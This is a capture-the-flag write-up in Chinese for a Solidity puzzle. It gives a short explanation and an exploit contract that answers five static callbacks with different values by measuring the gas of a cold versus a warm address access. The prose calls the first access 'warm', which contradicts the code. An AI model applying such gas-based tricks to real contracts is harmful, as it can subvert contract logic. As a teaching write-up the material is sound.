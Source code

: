 # Fatorial

题目让我们成功调用run方法，其中会staticcall回调msg.sender的`factorial(uint256)`5次，返回值累乘的结果是120。正常情况下，相同的返回值，累乘5次不可能刚好是120，因此我们需要返回不同的值。

因为staticcall限制不能修改状态，因此采用gas限制，根据冷热地址访问gas消耗不同，返回不同的值：第一次热访问返回120，后面4次冷访问都返回1，即可。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface IFactorial {
    function solve() external;
}

contract Exploit {
    IFactorial level;

    // construct() {} // construct not allowed

    function exploit() public {
        // write code here
        address target = 0x1963ead4de36524e8EB53B88ccf79ff15Fe20baB;
        level = IFactorial(target);
        level.solve();
    }

    function factorial(uint256) public view returns (bytes32) {
        uint startGas = gasleft();
        uint bal = address(0x100).balance;
        uint usedGas = startGas - gasleft();
        if (usedGas < 1000) {
            bytes32 data01 = bytes32(uint256(1));
            return data01;
        }
        bytes32 data02 = bytes32(uint256(120));
        return data02;
    }

}
```

